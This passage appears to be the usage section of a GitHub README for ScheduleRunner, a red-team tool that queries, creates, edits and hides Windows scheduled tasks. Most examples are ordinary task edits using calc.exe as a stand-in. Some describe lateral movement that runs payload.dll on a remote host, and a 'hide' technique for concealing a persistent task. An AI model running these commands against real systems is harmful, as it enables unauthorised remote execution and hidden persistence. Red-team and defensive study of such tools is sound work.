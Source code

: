 `ScheduleRunner.exe /method:query /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all sub-folders in scheduled task**

`ScheduleRunner.exe /method:queryfolders`

**Perform lateral movement using scheduled task to a remote server using a specific user account**

`ScheduleRunner.exe /method:move /taskname:Demo /remoteserver:TARGET-PC01 /program:rundll32.exe /argument:c:\temp\payload.dll /user:netero1010`

**Create a scheduled task called "Cleanup" using hiding scheduled task technique:**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010 /technique:hide`

**Delete a scheduled task called "Cleanup" that used hiding scheduled task technique:**

`ScheduleRunner.exe /method:delete /taskname:Cleanup /technique:hide`

**Edit a scheduled task called "test" which has 1 exec action and will be replaced with the program**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe`

**Edit a scheduled task called "test" which has 1 exec action and will be replaced with the program and argument**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1"`

**Edit a scheduled task called "test" which has multiple exec actions and one of them(oldaction) will be replaced with the program**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /oldaction:"C:\Windows\notepad.exe"`

**Edit a scheduled task called "test" which has multiple exec actions and one of them(oldaction) will be replaced with the program and argument**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /oldaction:"C:\Windows\notepad.exe"`

**Edit a scheduled task called "test" by adding a new exec action and specifying the order (1-based) in which it will appear in the action list. In this example, the new exec action will be added first**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /order:1`

**Edit a scheduled task called "test" by adding a new exec action with argument and specifying the order (1-based) in which it will appear in the action list. In this example, the new exec action will be added first**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /order:1`

**Edit a scheduled task called "test" by adding a new exec action with argument and specifying the order (1-based) in which will appear in the action list and adding a trigger. In this example, the new exec action will be added first and the trigger will be onlogon**

`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /order:1 /trigger:onlogon`
